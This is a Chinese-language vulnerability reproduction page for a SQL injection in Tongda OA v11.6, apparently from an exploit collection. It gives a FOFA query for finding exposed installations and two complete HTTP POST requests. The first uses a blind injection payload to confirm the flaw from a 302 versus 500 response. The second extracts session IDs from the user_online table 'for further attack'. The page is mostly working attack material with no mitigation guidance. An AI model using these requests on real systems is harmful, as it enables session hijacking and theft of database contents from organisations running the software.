 # 通达OA v11.6 insert SQL注入漏洞

## 漏洞描述

通达OA v11.6 insert参数包含SQL注入漏洞，攻击者通过漏洞可获取数据库敏感信息

## 漏洞影响

```
通达OA v11.6
```

## 网络测绘

```
app="TDXK-通达OA"
```

## 漏洞复现

登陆页面

![image-20220520154138233](https://0-bit.oss-cn-beijing.aliyuncs.com/cuer/202205201541419.png)

发送请求包判断漏洞

```
POST /general/document/index.php/recv/register/insert HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 77
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

title)values("'"^exp(if(ascii(substr(MOD(5,2),1,1))<128,1,710)))# =1&_SERVER=
```

返回302则是存在漏洞，返回500则不存在

![image-20220520154148858](https://0-bit.oss-cn-beijing.aliyuncs.com/cuer/202205201541900.png)

确认存在漏洞后，再通过SQL注入获取 SessionID进一步攻击

```
POST /general/document/index.php/recv/register/insert HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 122
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

title)values("'"^exp(if(ascii(substr((select/**/SID/**/from/**/user_online/**/limit/**/0,1),8,1))<66,1,710)))# =1&_SERVER=
```